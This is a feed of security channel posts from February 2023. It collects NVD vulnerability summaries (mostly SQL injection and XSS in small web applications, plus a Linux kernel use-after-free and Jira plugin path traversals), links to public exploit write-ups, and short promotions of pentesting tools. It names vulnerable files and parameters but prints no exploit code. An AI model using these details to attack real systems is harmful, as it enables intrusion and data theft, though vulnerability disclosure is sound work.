



# cibsecurity
`2023-02-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-1100

<blockquote>
‼ CVE-2023-1100 ‼

A vulnerability classified as critical has been found in SourceCodester Online Catering Reservation System 1.0. This affects an unknown part of the file /reservation/add_message.php of the component POST Parameter Handler. The manipulation of the argument fullname leads to sql injection. It is possible to initiate the attack remotely. The exploit has been disclosed to the public and may be used. The associated identifier of this vulnerability is VDB-222003.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-1099

<blockquote>
‼ CVE-2023-1099 ‼

A vulnerability was found in SourceCodester Online Student Management System 1.0. It has been rated as critical. Affected by this issue is some unknown functionality of the file eduauth/edit-class-detail.php?editid&#61;1. The manipulation of the argument editideditid leads to sql injection. The attack may be launched remotely. VDB-222002 is the identifier assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25431

<blockquote>
‼ CVE-2023-25431 ‼

An issue was discovered in Online Reviewer Management System v1.0. There is a XSS vulnerability via reviewer_0/admins/assessments/course/course-update.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-27293

<blockquote>
‼ CVE-2023-27293 ‼

Improper neutralization of input during web page generation allows an unauthenticated attacker to submit malicious Javascript as the answer to a questionnaire which would then be executed when an authenticated user reviews the candidate's submission. This could be used to steal other users’ cookies and force users to make actions without their knowledge.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25432

<blockquote>
‼ CVE-2023-25432 ‼

An issue was discovered in Online Reviewer Management System v1.0. There is a SQL injection that can directly issue instructions to the background database system via reviewer_0/admins/assessments/course/course-update.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-20932

<blockquote>
‼ CVE-2023-20932 ‼

In onCreatePreferences of EditInfoFragment.java, there is a possible way to read contacts belonging to other users due to improper input validation. This could lead to local information disclosure with no additional execution privileges needed. User interaction is not needed for exploitation.Product: AndroidVersions: Android-10 Android-11 Android-12 Android-12L Android-13Android ID: A-248251018

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-02-28`

<blockquote>
Osprey Pump Controller 1.0.1 Unauthenticated Remote Code Execution
http://exploit.kitploit.com/2023/02/osprey-pump-controller-101_40.html
</blockquote>

<table><tr><td><b>→</b><a href="https://exploit.kitploit.com/2023/02/osprey-pump-controller-101_40.html">
https://exploit.kitploit.com/2023/02/osprey-pump-controller-101_40.html
</a>
<blockquote>
Exploit Collector is the ultimate collection of public exploits and exploitable vulnerabilities. Remote/Local Exploits, Shellcode and 0days.
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-02-28`

<blockquote>
Osprey Pump Controller 1.0.1 Predictable Session Token / Session Hijacking
http://exploit.kitploit.com/2023/02/osprey-pump-controller-101-predictable.html
</blockquote>

<table><tr><td><b>→</b><a href="https://exploit.kitploit.com/2023/02/osprey-pump-controller-101-predictable.html">
https://exploit.kitploit.com/2023/02/osprey-pump-controller-101-predictable.html
</a>
<blockquote>
Exploit Collector is the ultimate collection of public exploits and exploitable vulnerabilities. Remote/Local Exploits, Shellcode and 0days.
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-02-28`

<blockquote>
ME-FI DOT 2.2 SQL Injection
http://exploit.kitploit.com/2023/02/me-fi-dot-22-sql-injection.html
</blockquote>

<table><tr><td><b>→</b><a href="https://exploit.kitploit.com/2023/02/me-fi-dot-22-sql-injection.html">
https://exploit.kitploit.com/2023/02/me-fi-dot-22-sql-injection.html
</a>
<blockquote>
Exploit Collector is the ultimate collection of public exploits and exploitable vulnerabilities. Remote/Local Exploits, Shellcode and 0days.
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-02-28`

<blockquote>
ChurchCRM 4.5.3 SQL Injection
http://exploit.kitploit.com/2023/02/churchcrm-453-sql-injection.html
</blockquote>

<table><tr><td><b>→</b><a href="https://exploit.kitploit.com/2023/02/churchcrm-453-sql-injection.html">
https://exploit.kitploit.com/2023/02/churchcrm-453-sql-injection.html
</a>
<blockquote>
Exploit Collector is the ultimate collection of public exploits and exploitable vulnerabilities. Remote/Local Exploits, Shellcode and 0days.
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-02-28`

<blockquote>
Osprey Pump Controller 1.0.1 Unauthenticated Remote Code Execution
https://packetstormsecurity.com/files/171191/ZSL-2023-5754.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/171191/ZSL-2023-5754.txt">
https://packetstormsecurity.com/files/171191/ZSL-2023-5754.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-02-28`

<blockquote>
Osprey Pump Controller 1.0.1 Predictable Session Token / Session Hijacking
https://packetstormsecurity.com/files/171161/ZSL-2023-5745.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/171161/ZSL-2023-5745.txt">
https://packetstormsecurity.com/files/171161/ZSL-2023-5745.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-02-28`

<blockquote>
ME-FI DOT 2.2 SQL Injection
https://packetstormsecurity.com/files/171146/mefidot22-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/171146/mefidot22-sql.txt">
https://packetstormsecurity.com/files/171146/mefidot22-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-02-28`

<blockquote>
ChurchCRM 4.5.3 SQL Injection
https://packetstormsecurity.com/files/171142/churchcrm453-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/171142/churchcrm453-sql.txt">
https://packetstormsecurity.com/files/171142/churchcrm453-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-02-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25264

<blockquote>
‼ CVE-2023-25264 ‼

An issue was discovered in Docmosis Tornado prior to version 2.9.5. An unauthenticated attacker can bypass the authentication check filter completely by introducing a specially crafted request with relative path segments.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0461

<blockquote>
‼ CVE-2023-0461 ‼

There is a use-after-free vulnerability in the Linux Kernel which can be exploited to achieve local privilege escalation. To reach the vulnerability kernel configuration flag CONFIG_TLS or CONFIG_XFRM_ESPINTCP has to be configured, but the operation does not require any privilege. There is a use-after-free bug of icsk_ulp_data of a struct inet_connection_sock. When CONFIG_TLS is enabled, user can install a tls context (struct tls_context) on a connected tcp socket. The context is not cleared if this socket is disconnected and reused as a listener. If a new socket is created from the listener, the context is inherited and vulnerable. The setsockopt TCP_ULP operation does not require any privilege. We recommend upgrading past commit 2c02d41d71f90a5168391b6a5f2954112ba2307c

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-26256

<blockquote>
‼ CVE-2023-26256 ‼

An unauthenticated path traversal vulnerability affects the &quot;STAGIL Navigation for Jira - Menu &amp; Themes&quot; plugin before 2.0.52 for Jira. By modifying the fileName parameter to the snjFooterNavigationConfig endpoint, it is possible to traverse and read the file system.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-26255

<blockquote>
‼ CVE-2023-26255 ‼

An unauthenticated path traversal vulnerability affects the &quot;STAGIL Navigation for Jira - Menu &amp; Themes&quot; plugin before 2.0.52 for Jira. By modifying the fileName parameter to the snjCustomDesignConfig endpoint, it is possible to traverse and read the file system.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# hackgit
`2023-02-28`

* https://telegra.ph/file/cf57a9a3c992572cb2974.jpg
* https://t.me/hackgit
* https://github.com/spyx/ParamAngler

<blockquote>
​​ParamAngler

Introducing ParamAngler - the ultimate tool for testing specific payloads on each parameter. The name ParamAngler is a combination of two words - 'parameters' and 'angler'. An angler is someone who enjoys fishing with a rod and line, and with ParamAngler, you can fish for bugs on a much larger scale.

Whether you're looking for XSS, LFI, SQLi, or other vulnerabilities in your web application, ParamAngler has got you covered. With its powerful and easy-to-use features, you can search for reflected parameters, test for payloads, and much more.

https://github.com/spyx/ParamAngler

&#35;pentesting &#35;bugbounty
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/file/cf57a9a3c992572cb2974.jpg">
https://telegra.ph/file/cf57a9a3c992572cb2974.jpg
</a>
</td></tr></table>

---

# hackgit
`2023-02-28`

* https://storage.googleapis.com/notepostbot.appspot.com/3Vu9THH9z4DPqzqd-1677521616862.png
* https://github.com/fcavallarin/burp-dom-scanner

<blockquote>
​​Burp DOM Scanner

It's a Burp Suite's extension to allow for recursive crawling and scanning of Single Page Applications. It runs a Chromium browser to scan the webpage for DOM-based XSS.

It can also collect all the requests (XHR, fetch, websockets, etc) issued during the crawling allowing them to be forwarded to Burp's Proxy, Repeater and Intruder.

https://github.com/fcavallarin/burp-dom-scanner
</blockquote>

<table><tr><td><b>→</b><a href="https://storage.googleapis.com/notepostbot.appspot.com/3Vu9THH9z4DPqzqd-1677521616862.png">
https://storage.googleapis.com/notepostbot.appspot.com/3Vu9THH9z4DPqzqd-1677521616862.png
</a>
</td></tr></table>

---

# cibsecurity
`2023-02-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-1081

<blockquote>
‼ CVE-2023-1081 ‼

Cross-site Scripting (XSS) - Stored in GitHub repository microweber/microweber prior to 1.3.3.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2015-10086

<blockquote>
‼ CVE-2015-10086 ‼

A vulnerability, which was classified as critical, was found in OpenCycleCompass server-php. Affected is an unknown function of the file api1/login.php. The manipulation of the argument user leads to sql injection. It is possible to launch the attack remotely. This product is using a rolling release to provide continious delivery. Therefore, no version details for affected nor updated releases are available. The name of the patch is fa0d9bcf81c711a88172ad0d37a842f029ac3782. It is recommended to apply a patch to fix this issue. The identifier of this vulnerability is VDB-221808.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-27`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24258

<blockquote>
‼ CVE-2023-24258 ‼

SPIP v4.1.5 and earlier was discovered to contain a SQL injection vulnerability via the _oups parameter. This vulnerability allows attackers to execute arbitrary code via a crafted POST request.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-27`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-26043

<blockquote>
‼ CVE-2023-26043 ‼

GeoNode is an open source platform that facilitates the creation, sharing, and collaborative use of geospatial data. GeoNode is vulnerable to an XML External Entity (XXE) injection in the style upload functionality of GeoServer leading to Arbitrary File Read. This issue has been patched in version 4.0.3.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-27`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24253

<blockquote>
‼ CVE-2023-24253 ‼

Domotica Labs srl Ikon Server before v2.8.6 was discovered to contain a SQL injection vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-27`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24654

<blockquote>
‼ CVE-2023-24654 ‼

Simple Customer Relationship Management System v1.0 was discovered to contain a SQL injection vulnerability via the name parameter under the Request a Quote function.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-27`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24652

<blockquote>
‼ CVE-2023-24652 ‼

Simple Customer Relationship Management System v1.0 was discovered to contain a SQL injection vulnerability via the Description parameter under the Create ticket function.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-27`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24656

<blockquote>
‼ CVE-2023-24656 ‼

Simple Customer Relationship Management System v1.0 was discovered to contain a SQL injection vulnerability via the subject parameter under the Create Ticket function.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-27`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23157

<blockquote>
‼ CVE-2023-23157 ‼

A stored cross-site scripting (XSS) vulnerability in Art Gallery Management System Project v1.0 allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the fullname parameter on the enquiry page.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-27`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24653

<blockquote>
‼ CVE-2023-24653 ‼

Simple Customer Relationship Management System v1.0 was discovered to contain a SQL injection vulnerability via the oldpass parameter under the Change Password function.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-27`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0487

<blockquote>
‼ CVE-2023-0487 ‼

The My Sticky Elements WordPress plugin before 2.0.9 does not properly sanitise and escape a parameter before using it in a SQL statement when deleting messages, leading to a SQL injection exploitable by high privilege users such as admin

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-02-27`

<blockquote>
ABUS Security Camera TVIP 20000-21150 LFI / Remote Code Execution
http://exploit.kitploit.com/2023/02/abus-security-camera-tvip-20000-21150.html
</blockquote>

<table><tr><td><b>→</b><a href="https://exploit.kitploit.com/2023/02/abus-security-camera-tvip-20000-21150.html">
https://exploit.kitploit.com/2023/02/abus-security-camera-tvip-20000-21150.html
</a>
<blockquote>
Exploit Collector is the ultimate collection of public exploits and exploitable vulnerabilities. Remote/Local Exploits, Shellcode and 0days.
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-02-27`

<blockquote>
ABUS Security Camera TVIP 20000-21150 LFI / Remote Code Execution
https://packetstormsecurity.com/files/171136/NWSSA-001-2023.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/171136/NWSSA-001-2023.txt">
https://packetstormsecurity.com/files/171136/NWSSA-001-2023.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-02-27`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-34909

<blockquote>
‼ CVE-2022-34909 ‼

An issue was discovered in the A4N (Aremis 4 Nomad) application 1.5.0 for Android. It allows SQL Injection, by which an attacker can bypass authentication and retrieve data that is stored in the database.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-27`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-1067

<blockquote>
‼ CVE-2023-1067 ‼

Cross-site Scripting (XSS) - Stored in GitHub repository pimcore/pimcore prior to 10.5.18.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-27`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24206

<blockquote>
‼ CVE-2023-24206 ‼

Davinci v0.3.0-rc was discovered to contain a SQL injection vulnerability via the copyDisplay function.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-27`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-1059

<blockquote>
‼ CVE-2023-1059 ‼

A vulnerability classified as critical was found in SourceCodester Doctors Appointment System 1.0. This vulnerability affects unknown code of the file /admin/doctors.php of the component Parameter Handler. The manipulation of the argument search leads to sql injection. The attack can be initiated remotely. The exploit has been disclosed to the public and may be used. The identifier of this vulnerability is VDB-221824.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-27`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-1062

<blockquote>
‼ CVE-2023-1062 ‼

A vulnerability, which was classified as critical, was found in SourceCodester Doctors Appointment System 1.0. Affected is an unknown function of the file /admin/add-new.php of the component Parameter Handler. The manipulation of the argument email leads to sql injection. It is possible to launch the attack remotely. The exploit has been disclosed to the public and may be used. VDB-221826 is the identifier assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-27`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-1053

<blockquote>
‼ CVE-2023-1053 ‼

A vulnerability was found in SourceCodester Music Gallery Site 1.0 and classified as critical. This issue affects some unknown processing of the file view_category.php. The manipulation of the argument id leads to sql injection. The attack may be initiated remotely. The associated identifier of this vulnerability is VDB-221819.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-27`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-1057

<blockquote>
‼ CVE-2023-1057 ‼

A vulnerability was found in SourceCodester Doctors Appointment System 1.0. It has been rated as critical. Affected by this issue is the function edoc of the file login.php. The manipulation of the argument usermail leads to sql injection. VDB-221822 is the identifier assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-27`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-1058

<blockquote>
‼ CVE-2023-1058 ‼

A vulnerability classified as critical has been found in SourceCodester Doctors Appointment System 1.0. This affects an unknown part of the file create-account.php. The manipulation of the argument newemail leads to sql injection. It is possible to initiate the attack remotely. The exploit has been disclosed to the public and may be used. The associated identifier of this vulnerability is VDB-221823.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-27`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-1063

<blockquote>
‼ CVE-2023-1063 ‼

A vulnerability has been found in SourceCodester Doctors Appointment System 1.0 and classified as critical. Affected by this vulnerability is an unknown functionality of the file /admin/patient.php of the component Parameter Handler. The manipulation of the argument search leads to sql injection. The attack can be launched remotely. The exploit has been disclosed to the public and may be used. The associated identifier of this vulnerability is VDB-221827.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-27`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-1054

<blockquote>
‼ CVE-2023-1054 ‼

A vulnerability was found in SourceCodester Music Gallery Site 1.0. It has been classified as critical. Affected is an unknown function of the file /admin/?page&#61;user/manage. The manipulation of the argument id leads to sql injection. It is possible to launch the attack remotely. The identifier of this vulnerability is VDB-221820.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-27`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-1061

<blockquote>
‼ CVE-2023-1061 ‼

A vulnerability, which was classified as critical, has been found in SourceCodester Doctors Appointment System 1.0. This issue affects some unknown processing of the file /admin/edit-doc.php. The manipulation of the argument oldmail leads to sql injection. The attack may be initiated remotely. The exploit has been disclosed to the public and may be used. The identifier VDB-221825 was assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-27`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-1056

<blockquote>
‼ CVE-2023-1056 ‼

A vulnerability was found in SourceCodester Doctors Appointment System 1.0. It has been declared as critical. Affected by this vulnerability is an unknown functionality of the file /edoc/doctor/patient.php. The manipulation of the argument search12 leads to sql injection. The attack can be launched remotely. The exploit has been disclosed to the public and may be used. The identifier VDB-221821 was assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-26`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-1046

<blockquote>
‼ CVE-2023-1046 ‼

A vulnerability classified as critical has been found in MuYuCMS 2.2. This affects an unknown part of the file /admin.php/update/getFile.html. The manipulation of the argument url leads to server-side request forgery. It is possible to initiate the attack remotely. The exploit has been disclosed to the public and may be used. The identifier VDB-221805 was assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-26`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-26091

<blockquote>
‼ CVE-2023-26091 ‼

The frp_form_answers (aka Forms Export) extension before 3.1.2, and 4.x before 4.0.2, for TYPO3 allows XSS via saved emails.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-25`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-26550

<blockquote>
‼ CVE-2023-26550 ‼

A SQL injection vulnerability in BMC Control-M before 9.0.20.214 allows attackers to execute arbitrary SQL commands via the memname JSON field.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-25`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-1035

<blockquote>
‼ CVE-2023-1035 ‼

A vulnerability was found in SourceCodester Clinics Patient Management System 1.0. It has been classified as critical. Affected is an unknown function of the file update_user.php. The manipulation of the argument user_id leads to sql injection. It is possible to launch the attack remotely. The exploit has been disclosed to the public and may be used. The identifier of this vulnerability is VDB-221784.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-27`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-34249

<blockquote>
‼ CVE-2021-34249 ‼

SQL injection vulnerability in sourcecodester online-book-store 1.0 allows remote attackers to view sensitive information via the id paremeter in application URL.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-24`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24189

<blockquote>
‼ CVE-2023-24189 ‼

An XML External Entity (XXE) vulnerability in urule v2.1.7 allows attackers to execute arbitrary code via uploading a crafted XML file to /urule/common/saveFile.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-24`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-34248

<blockquote>
‼ CVE-2021-34248 ‼

SQL injection vulnerability in sourcecodester mobile-shop-system-php-mysql 1.0 allows remote attackers to log in via crafterdstring in the email field of the log in page.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-02-24`

<blockquote>
Music Gallery Site 1.0 SQL Injection
http://exploit.kitploit.com/2023/02/music-gallery-site-10-sql-injection.html
</blockquote>

<table><tr><td><b>→</b><a href="https://exploit.kitploit.com/2023/02/music-gallery-site-10-sql-injection.html">
https://exploit.kitploit.com/2023/02/music-gallery-site-10-sql-injection.html
</a>
<blockquote>
Exploit Collector is the ultimate collection of public exploits and exploitable vulnerabilities. Remote/Local Exploits, Shellcode and 0days.
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-02-24`

<blockquote>
Employee Task Management System 1.0 SQL Injection
http://exploit.kitploit.com/2023/02/employee-task-management-system-10-sql.html
</blockquote>

<table><tr><td><b>→</b><a href="https://exploit.kitploit.com/2023/02/employee-task-management-system-10-sql.html">
https://exploit.kitploit.com/2023/02/employee-task-management-system-10-sql.html
</a>
<blockquote>
Exploit Collector is the ultimate collection of public exploits and exploitable vulnerabilities. Remote/Local Exploits, Shellcode and 0days.
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-02-24`

<blockquote>
Auto Dealer Management System 1.0 SQL Injection
http://exploit.kitploit.com/2023/02/auto-dealer-management-system-10-sql.html
</blockquote>

<table><tr><td><b>→</b><a href="https://exploit.kitploit.com/2023/02/auto-dealer-management-system-10-sql.html">
https://exploit.kitploit.com/2023/02/auto-dealer-management-system-10-sql.html
</a>
<blockquote>
Exploit Collector is the ultimate collection of public exploits and exploitable vulnerabilities. Remote/Local Exploits, Shellcode and 0days.
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-02-24`

<blockquote>
Music Gallery Site 1.0 SQL Injection
https://packetstormsecurity.com/files/171119/mgs10-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/171119/mgs10-sql.txt">
https://packetstormsecurity.com/files/171119/mgs10-sql.txt
</a>
<blockquote>
